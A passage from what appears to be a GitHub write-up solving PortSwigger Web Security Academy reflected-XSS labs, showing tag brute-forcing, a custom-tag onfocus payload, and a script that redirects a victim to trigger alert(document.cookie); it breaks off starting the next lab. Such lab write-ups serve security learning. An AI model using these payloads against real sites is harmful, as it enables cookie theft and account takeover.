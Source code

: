 ![Screenshot from 2023-09-04 03-20-28](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/877f5c2a-5c06-490c-b479-c8a7650967b0)

Then in our lab let's i brout-force all html tags but all blocked 

![Screenshot from 2023-09-02 23-28-30](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/9722f478-fcd7-4f95-b75e-161bbbd4a697)

Then I tried custom tag and it's work![Screenshot from 2023-09-04 03-28-51](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/6277ecff-521d-4e6c-b6e4-fecde78beee4)
Then I create a payload with this info

```js
<asdfghjk123 tabindex='1' onfocus=alert('xss') id='xss'>
```

and it's work

![Screenshot from 2023-09-04 03-33-38](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/c30ace3c-8484-4a39-b587-b518d4093e75)
Let's show it in browser

![Screenshot from 2023-09-04 03-33-47](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/fd1de1a3-f443-407b-bed2-81506954a4a7)
And add #xss in url

![Screenshot from 2023-09-04 03-34-15](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/6e518cd3-f2ba-490f-bfeb-6f81687b2b5a)

The XSS worked successfuly

![Screenshot from 2023-09-04 03-34-02](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/1117fae0-2864-4e01-ac34-5f98bb87f9e6)
Let's Create a Payload to solve this lab and send it to victim in exploit server

```html
<script>
    document.location = "https://0a6b00f403f1d59c8027813d00da00fa.web-security-academy.net/?search=%3Casdfghjk1234+tabindex%3d%271%27+onfocus%3dalert(document.cookie)+id%3d%27xss%27%3E#xss"
</script>
```

![Screenshot from 2023-09-04 03-40-14](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/85283ce2-cea6-435d-95b6-d499499e4e20)

![Screenshot from 2023-09-04 04-01-22](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/98840e24-8c98-4c3b-adf3-9b32d4182e28)

![Screenshot from 2023-09-04 03-40-33](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/4221f40e-20bc-4cf6-acdc-9f54f3a950bc)

> [**Python Script for this lab**](https://github.com/MohammedHawary/Solve-Portswigger-Labs-With_py/blob/main/XSS/Reflected_XSS_into_HTML_context_with_all_tags_blocked_except_custom_ones.py)

#### EX3: Reflected XSS with event handlers and href attributes blocked

First, I bruteforce tags to show any tags allowed and there are 5 tags allowed

`a, svg, animate, title, image`  

![Screenshot from 2023-09-04 04-31-28](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/c7c53538-1e1d-415c-b360-9d26580ca3d0)
I searched about svg tags in mozial and this is the usage and as you can see there are 
